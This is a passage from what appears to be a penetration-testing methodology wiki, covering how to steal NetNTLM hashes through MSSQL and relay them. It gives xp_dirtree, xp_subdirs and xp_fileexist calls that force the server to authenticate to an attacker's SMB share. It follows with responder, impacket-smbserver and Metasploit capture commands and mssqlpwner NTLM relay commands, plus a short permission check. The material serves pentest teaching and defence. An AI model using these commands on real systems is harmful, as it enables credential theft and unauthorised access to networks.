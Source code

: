 ### Steal NetNTLM hash / Relay attack

You should start a **SMB server** to capture the hash used in the authentication (`impacket-smbserver` or `responder` for example).

```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)

```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```

> [!WARNING]
> You can check if who (apart sysadmins) has permissions to run those MSSQL functions with:
>
> ```sql
> Use master;
> EXEC sp_helprotect 'xp_dirtree';
> EXEC sp_helprotect 'xp_subdirs';
> EXEC sp_helprotect 'xp_fileexist';
> ```

Using tools such as **responder** or **Inveigh** it's possible to **steal the NetNTLM hash**.\
You can see how to use these tools in:

{{#ref}}
../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Abusing MSSQL trusted Links

[**Read this post**](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md) **to find more information about how to abuse this feature:**

{{#ref}}
../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md
{{#endref}}
